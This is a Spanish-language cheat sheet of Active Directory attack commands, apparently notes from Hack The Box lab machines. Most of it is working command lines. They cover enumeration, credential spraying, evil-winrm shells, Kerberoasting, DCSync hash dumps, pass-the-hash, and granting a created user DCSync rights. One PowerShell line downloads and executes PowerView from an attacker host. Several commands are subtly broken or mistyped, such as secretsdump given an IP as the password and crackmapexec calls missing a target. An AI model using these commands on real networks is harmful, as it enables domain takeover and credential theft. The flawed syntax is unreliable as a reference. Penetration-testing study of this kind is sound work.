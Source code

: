 # Técnicas de directorio activo

## Puertos importantes

- 53: DNS
- 88: Kerberos
- 445: SMB
- 135: Windows RPC
- 389: LDAP
- 5985: Administración remota de windows

## Enumeración

Tecnicas de enumeración de directorio activo

### sincronizar reloj.

Es conveniente sincronizar el reloj con el DC.

```bash
# Sincronizar reloj
ntpdate 10.10.10.175
```

### SMB

Si tiene el puerto 445 lo primero es enumerar con **crackmapexec**, **smbmap**, **smbclient**,....

```bash
# Se averigua nombre de maquina y dominio.
crackmapexec smb 10.10.10.175

# Listar recursos compartidos
crackmapexec smb 10.10.10.175 --shares

# smbmap con session nula
smbmap -H 10.10.10.175 -u 'null'

# smbclient con session nula
smbclient -L 10.10.10.175 -N

```

Poner el dominio en /etc/host.

Si se tiene una credencial válida podemos comprobar el usuario.

```bash
# Si pone pwned podríamos acceder con PSEXEC
crackmapexec smb 10.10.10.175 -u 'fsmit' -p 'Thestrokes23'

```

### RPC

Si tiene el puerto 135 podemos enumerar con **rpcclient**.

```bash
# rpcclient con sesion nula
rpcclient -U "" 10.10.10.174 -N

# Enumerar usuarios del dominio:
rcpclient $> enumdomusers

```

### LDAP

Si tiene el puerto 389 podemos enumerar con **ldapsearch**.

```bash
# ldapseacrh -x es simple autentication. traemos los namingcontext
ldapsearch -x -h  10.10.10.174 -N -s base namingcontexts

# ldapseacrh -x es simple autentication. Enumeramos el contexto
ldapsearch -x -h  10.10.10.174 -N -b 'DC=EGOTISTICAL-BANK, DC=LOCAL'
```

### KERBEROS

Si se consiguen usuarios y está el servicio de Kerberos abierto, puerto 88, podemos enumerar con kerbrute y GetNPUsers.

```bash
# kerbrute. Enumera usuarios válidos a partir de un listado
./kerbrute userenum -d EGOTISTICAL-BANK.LOCAL --dc 10.10.10.174 users.txt

# Lo mismo con Impacket
impacket-GetNPUsers EGOTISTICAL-BANK.LOCAL/ -no-pass -usersfile users.txt
```

### DNS

Si está abierto el puerto 53 podemos intentar un ataque de transferencia de dominio con dig.

```bash
# dig. Enumera los nameservers
dig @10.10.10.174 EGOTISTICAL-BANK.LOCAL ns

# dig. Enumera los servidores de correo
dig @10.10.10.174 EGOTISTICAL-BANK.LOCAL mx

# dig. Domain Zone Transfer Attack
dig @10.10.10.174 EGOTISTICAL-BANK.LOCAL axfr


```

## Administración remota, WINRM

Si está abierto el servicio de administración remota, puerto 5985, podemos atacar el servicio winrm con crackmapexec.

```bash
# Si pone pwned podríamos acceder con evil-winrm
crackmapexec winrm 10.10.10.175 -u 'fsmit' -p 'Thestrokes23'

# Acceso a consola por 
evil-winrm -i 10.10.10.175 -u 'fsmit' -p 'Thestrokes23'
```
## Explotación

```bash
# Acceso a consola evil-winrm. Credenciales válidas y servicio de administración remota  
evil-winrm -i 10.10.10.175 -u 'fsmit' -p 'Thestrokes23'

# Si el LDAP es por SSL
evil-winrm -i 10.10.10.175 -c public.pem -k provate.pem -s
```

```bash
# Acceso a consola rpcclient. Credenciales válidas y SMB. Despues  enumdomusers  
evil-winrm -i 10.10.10.175 -u 'fsmit' -p 'Thestrokes23'
# enumer usuarios del dominio
rpcclient $> enumdomusers
# enumer grupos 
rpcclient $> enumdomgroups
# enumer usuarios de un grupo
rpcclient $> querygroupmem 0x200
# enumer info de un usuario
rpcclient $> queryuser 0x1f4
# Descripciones de los usuarios
rpcclient $> querydispinfo
```
## Escalada de privilegios

### Kerberoasting attack

Con credenciales válidas.
 ```bash

 impacket-GetUserSPNs htb.local/alfresco -dc-ip 10.10.10.141
 
 ```


### WinPEAS

Subir WinPEAS.exe a la máquina victima y ejecutarlo. Podemos obtener credenciales de autologon.

### BloodHound

Instalar en la maquina atacante neo4j y bloodhound. Previmente instalar Java 11.

```bash
# Instalación  
sudo apt install neo4j bloodhound

# Setear versión de java por defecto a la 11
sudo update-alternatives --config java

# Lanzamos neo4j. Configuramos en http://localhost:7474
sudo neo4j console &> /dev/null & disown

# Abrimos bloodhound 
sudo bloodhound &> /dev/null & disown
```
Buscamos un recolector y lo subimos a la maquina victima.

En el caso de Poweshell SharpHound.ps

### Ldapdomaindump

Para dumpear el LDAP.

```bash
# Dumpea los HASHSES
ldapdomaindump -u 'htb.local/svc-alfresco' -p 's3vice' 10.10.10.161

```


### Ataque DCSync

```bash
# Dumpa los HASHSES
impacket-secretsdump EGOTISTICAL-BANK.LOCAL/svc_loanmgr:10.10.10.175

```

### Pass de HASH

Si hemos tenido suerte y tenemos el hash NTLM podemos hacer Pass the HASH con psexec.

```bash
# Pass the hash,
impacket-psexec EGOTISTICAL-BANK.LOCAL/Administrator:10.10.10.175 cmd.exe -hashes :elhahsahnt

# Tambien con crackmapexec. Dumpeamos todos los hashes
crackmapexec -u 'Administrator' -H 'elhashntlm' --ntds vss
# Conexión como administrador
crackmapexec -u 'Administrator' -H 'elhashntlm' 

```

## Grupos interesantes:

* **Account Operators**: Puede crear y modificar usuarios
* **Exchange Windows Permissions** Se puede otorgar permisos para ejecutar DCSync con la funcion WriteDacl

## Comandos

```poweshell
# Crear usuario
net user jamunof Password123 /add /domain

# Ver info usuario
net user jamunoz

# Ver grupos
net group

#Añadir usuario a grupo
net group "Exchange Windows Permissions" jamunoz /add

#Dar privilegios para DCSync
$SecPassword = ConvertTo-SecureString 'Password123!' -AsPlainText -Force
$Cred = New-Object System.Management.Automation.PSCredential('htb.local\jamunoz'.$SecPassword)
# Descargar PowerView.ps1, previemente descargado de internet en maquina atacante
IEX(New-Object Net.WebClient).downloadString('http://10.10.104.29/PowerView.ps1')
Add-DomainObjectAcl -Credential $Cred -TargetIdentity "DC=htb,DC=local" -PrincipalIdentity jamunoz -Rights DCSync

```

